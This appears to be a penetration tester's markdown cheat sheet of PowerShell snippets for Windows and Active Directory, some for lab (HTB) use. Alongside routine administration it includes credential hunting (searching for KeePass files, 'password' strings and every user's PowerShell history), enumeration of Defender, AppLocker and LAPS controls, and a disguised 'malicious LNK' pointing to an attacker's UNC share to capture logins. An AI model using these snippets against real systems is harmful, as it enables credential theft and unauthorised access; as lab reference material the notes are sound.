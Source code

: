 ```yaml
---
tags:
  - windows
  - hack
---
```

# Using PowerShell

Various snippets.

## Creating a Credential Object

```powershell
$user = "DOMAIN\luser"
$pass = "Secr1tP4ss!"
$sspass = ConvertTo-SecureString $pass -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ($user, $sspass)
```

## Changing Another User's Password

```powershell
Set-ADAccountPassword -Identity "luser" -NewPassword (ConvertTo-SecureString "NewPassword123" -AsPlainText -Force) -Reset
```

## Using `EnterPSSession` to Access Another Machine

```powershell
Enter-PSSession -ComputerName COMPUTER-MS01 -Credential $cred
```

## Finding Files

```powershell
Get-PSDrive -PSProvider FileSystem | % { Get-ChildItem $_.Root -Filter "*.kdbx" -Recurse -ErrorAction SilentlyContinue }
```

## Searching Files

```powershell
Get-ChildItem -Path C:\ -Recurse -Include *.xml,*.ini,*.txt,*.config | Select-String -Pattern "password" | Format-Table Path, LineNumber, Line
```

## PowerShell History

For all users:

```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

## Show Installed Programs

```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

## Show Scheduled Tasks

```powershell
Get-ScheduledTask | select TaskName,State
```

## Make a `.zip` Archive

```powershell
Compress-Archive -Path C:\Reference\*.* -DestinationPath C:\Archives\Draft.zip
```

## Expand a `.zip` Archive

```powershell
Expand-Archive -Path "C:\path\to\archive.zip" -DestinationPath "C:\path\to\extract\folder"
```

## Show Processes with Users

```powershell
Get-Process | Select-Object Name, Id, @{Name='UserName';Expression={(Get-WmiObject Win32_Process -Filter "ProcessId=$($_.Id)").GetOwner().User}} | Format-Table -AutoSize

```

## Enumerating Windows Security Controls

Check status of Windows Defender with: `Get-MpComputerStatus`

AppLocker: `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

Constrained Language Mode: `$ExecutionContext.SessionState.LanguageMode`

LAPS:

- `Find-LAPSDelegatedGroups`
- `Find-AdmPwdExtendedRights`
- `Get-LAPSComputers`

## Install `activedirectory` PowerShell Module

e.g. for HTB hosts that don't have it enabled by default and don't have Internet access.

```powershell
Add-WindowsFeature RSAT-AD-PowerShell
Import-Module ActiveDirectory
```

## Create a Malicious `LNK`

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\totally-legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@legit.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Important Security Update"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

## Convert a File to Base64

```powershell
[IO.File]::WriteAllText( "/users/luser/x.b64", [Convert]::ToBase64String( [IO.File]::ReadAllBytes("/users/luser/x.zip")))
```

## Test if a TCP Port is Open

```powershell
Test-NetConnection -ComputerName 192.168.1.1 -Port 443
```
